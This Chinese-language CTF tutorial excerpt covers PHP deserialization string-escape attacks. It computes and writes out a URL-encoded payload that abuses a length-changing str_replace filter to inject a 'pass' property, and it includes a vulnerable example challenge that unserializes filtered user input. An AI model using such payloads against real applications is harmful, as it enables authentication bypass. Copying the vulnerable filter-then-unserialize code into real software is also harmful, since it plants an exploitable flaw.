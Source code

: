 ### payload 构造

```php
主要目标是：将 $profile->pass 进行逃逸，使其等于 escaping

filter函数将传入的 flag 或 php 全部替换成 hack
	这里肯定选择使用 php 进行逃逸，因为flag的长度等于hack的长度，是逃逸不了的
	
构造目标：";s:4:"pass";s:8:"escaping";}
长度计算：";s:4:"pass";s:8:"escaping";} = 29

方程计算：3x + 29 = 4x
			  x = 29
即：需要29个php字符串
最后序列化结果：O:4:"test":2:{s:4:"user";s:116:"phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}";s:4:"pass";s:8:"daydream";}

payload：phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp%22;s:4:%22pass%22;s:8:%22escaping%22;}
```



### 例题代码2 - 除不尽

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class a
{
    public $uname;
    public $password;
    public function __construct($uname,$password)
    {
        $this->uname=$uname;
        $this->password=$password;
    }
    public function __wakeup()
    {
            if($this->password==='easy')
            {
                include('flag.php');
                echo $flag;    
            }
            else
            {
                echo 'wrong password';
            }
        }
    }

function filter($string){
    return str_replace('challenge','easychallenge',$string);
}

$uname=$_GET[1];
$password=1;
$ser=filter(serialize(new a($uname,$password)));
$test=unserialize($ser);
?>
```
